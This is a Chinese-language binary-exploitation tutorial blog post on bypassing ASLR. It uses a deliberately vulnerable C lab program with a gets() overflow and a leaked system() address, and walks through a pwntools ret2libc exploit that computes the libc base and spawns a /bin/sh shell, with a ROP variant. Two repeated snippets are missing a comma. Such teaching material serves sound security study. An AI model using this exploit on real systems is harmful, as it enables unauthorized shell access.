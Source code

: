 ```yaml
---
title: 利用已泄漏信息绕过 ASLR
subtitle:
date: 2023-08-23T11:23:01+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


利用已泄漏信息绕过 ASLR

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/aslr.zip" content="aslr.zip" title="Download aslr.zip" download="aslr.zip" card=true >}}

```c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

{{<admonition type="info">}}

你的系统地址可能以不同的字符结尾。这只是说明你用的是不同的 libc 版本。

{{</admonition>}}

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）：

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 ret2libc 了：

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

自己尝试 :)

{{< link href="/pwn_assets/aslr-64.zip" content="aslr-64.zip" title="Download aslr-64.zip" download="aslr-64.zip" card=true >}}

## 0x05 使用 pwntools 优化

你可以将以下 payload 写得更加 pwntoolsy：

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以这样做：

```python
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都
会自动为你解析。

